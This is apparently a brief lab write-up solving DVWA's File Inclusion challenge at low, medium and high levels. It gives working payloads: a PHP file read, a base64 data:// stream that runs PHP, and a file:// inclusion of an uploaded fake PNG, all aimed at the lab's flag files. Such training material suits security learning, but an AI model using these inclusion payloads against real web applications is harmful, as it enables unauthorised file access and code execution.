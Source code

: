 # File Inclusion

## low

just RFI

```php
<?php echo file_get_contents("../../hackable/flags/fi.php"); ?>
```

## medium

php base64 data stream

```
?page=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygiL3Zhci93d3cvaHRtbC9oYWNrYWJsZS9mbGFncy9maS5waHAiKTs/Pg==
```

## high

upload `a.png` and LFI with php file stream

see `upload.md` and `fakepng.asm`

```
?page=file:///var/www/html/hackable/uploads/a.png
```
